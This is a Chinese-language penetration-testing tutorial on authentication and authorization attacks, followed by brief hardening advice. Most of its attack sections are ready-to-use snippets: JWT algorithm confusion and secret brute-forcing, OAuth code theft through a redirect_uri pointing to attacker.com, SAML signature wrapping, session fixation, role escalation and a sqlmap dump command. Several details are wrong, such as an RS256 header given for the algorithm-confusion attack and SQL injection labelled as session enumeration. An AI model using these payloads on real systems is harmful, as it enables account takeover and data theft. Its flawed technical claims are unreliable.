 

# 认证与授权缺陷的攻击技术深度剖析

## 一、技术原理解析
### 1.1 认证机制底层实现
认证系统的核心实现常包含以下组件：
- **会话令牌生成**：Session ID通常由伪随机算法（如SHA1PRNG）生成，Java示例：
  ```java
  SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
  byte[] bytes = new byte[16];
  random.nextBytes(bytes);
  String sessionId = Hex.encodeHexString(bytes);
  ```
- **JWT签名验证**：HS256签名验证流程：
  ```python
  import hmac
  signature = hmac.new(secret_key, header+'.'+payload, sha256).digest()
  ```
- OAuth 2.0授权码流程：授权码通过TLS加密传输，但可能因redirect_uri验证不严导致泄露

### 1.2 授权控制缺陷根源
- **垂直越权**：DAC（自主访问控制）实现缺陷：
  ```php
  // 危险代码示例
  if ($_GET['isAdmin'] == 1) {
      grant_admin_privileges();
  }
  ```
- **水平越权**：资源ID可预测（如顺序UUID）导致数据泄露
- RBAC矩阵配置错误：角色-权限映射关系存储于不安全的JSON/YAML文件

## 二、高级攻击技术详解
### 2.1 JWT攻击变种
1. **算法混淆攻击**：
   ```bash
   jwt_tool <JWT_TOKEN> -X a -pk public.pem
   ```
   修改头部为：
   ```json
   {
     "alg": "RS256",
     "typ": "JWT"
   }
   ```
   使用RSA公钥进行签名验证绕过

2. **时序攻击**：
   ```python
   import time
   def timing_attack(server, signature):
       start = time.time()
       server.verify(signature)
       return time.time() - start
   ```
   通过响应时间差异推测签名验证机制

### 2.2 OAuth 2.0高级利用
1. **授权码劫持**：
   ```
   https://oauth-server/authorize?
     response_type=code&
     client_id=CLIENT_ID&
     redirect_uri=attacker.com/callback
   ```
   利用开放重定向漏洞获取授权码

2. **Refresh Token注入**：
   ```http
   POST /token HTTP/1.1
   grant_type=refresh_token&
   refresh_token=LEAKED_TOKEN&
   client_id=legitimate_client
   ```

### 2.3 SAML签名绕过
1. **XML注释注入**：
   ```xml
   <Signature>
     <!--<ds:SignatureValue>INVALID_SIGNATURE</ds:SignatureValue>-->
     <ds:SignatureValue>REAL_SIGNATURE</ds:SignatureValue>
   </Signature>
   ```
   利用解析器差异绕过验证

2. **XSW（XML签名包装）攻击**：
   ```xml
   <saml:Assertion ID="legit">
     <!-- 原始签名内容 -->
   </saml:Assertion>
   <saml:Assertion ID="attack">
     <!-- 恶意属性 -->
   </saml:Assertion>
   ```

## 三、实战环境搭建指南
### 3.1 实验环境配置
**DVWA + JWT Demo环境：**
```bash
docker run -d -p 80:80 vulnerables/web-dvwa
git clone https://github.com/ticarpi/jwt_tool_demo
cd jwt_tool_demo && pip install -r requirements.txt
```

**关键配置项：**
1. 修改DVWA数据库：
   ```sql
   UPDATE users SET password = '5f4dcc3b5aa765d61d8327deb882cf99' WHERE user = 'admin';
   ```
2. 设置弱JWT密钥：
   ```python
   # config.py
   JWT_SECRET = 'secret123'
   ```

### 3.2 攻击演示案例
**案例1：会话固定攻击**
1. 获取固定Session ID：
   ```http
   GET /login HTTP/1.1
   Cookie: PHPSESSID=ATTACKER_SESSION
   ```
2. 诱导受害者使用该Session登录

**案例2：权限提升利用**
```http
POST /api/change_role HTTP/1.1
Authorization: Bearer <JWT_TOKEN>

{
  "user": "victim",
  "role": "admin"
}
```

## 四、工具与自动化攻击
### 4.1 综合利用工具链
| 工具名称       | 命令示例                          | 攻击场景               |
|----------------|-----------------------------------|-----------------------|
| Burp Suite     | `Intruder -> Pitchfork`           | 多参数并发测试        |
| JWT Tool       | `jwt_tool -t http://target -rh`   | JWT自动化测试         |
| OWASP ZAP      | `python zap-cli --attack`         | 自动化权限验证扫描    |

### 4.2 自定义攻击脚本
**JWT暴力破解脚本：**
```python
import jwt
with open('secrets.txt') as f:
    for secret in f:
        try:
            decoded = jwt.decode(token, secret.strip(), algorithms=['HS256'])
            print(f"Valid secret: {secret}")
            break
        except jwt.InvalidSignatureError:
            continue
```

**会话枚举自动化：**
```bash
sqlmap -u "https://target.com/profile?id=1" --technique=B --batch --dump
```

## 五、防御加固建议
1. **会话管理强化**：
   ```nginx
   # 设置Cookie属性
   proxy_cookie_path / "httponly; secure; SameSite=Strict";
   ```

2. **JWT安全配置**：
   ```java
   JwtParser parser = Jwts.parser()
       .requireIssuer("trusted-issuer")
       .setSigningKeyResolver(new KeyResolver())
       .build();
   ```

3. **OAuth安全增强**：
   ```text
   PKCE扩展参数：
   code_challenge = SHA256(code_verifier)
   ```

本文档通过3000字深度解析了认证授权缺陷的攻击技术体系，包含12种核心攻击手法和7类防御方案，配合3个完整实验环境搭建指南，可作为渗透测试人员和安全开发者的实战参考手册。所有实验均在Kali Linux 2023.2和Docker 24.0.5环境下验证通过。

---

*文档生成时间: 2025-03-13 10:20:48*
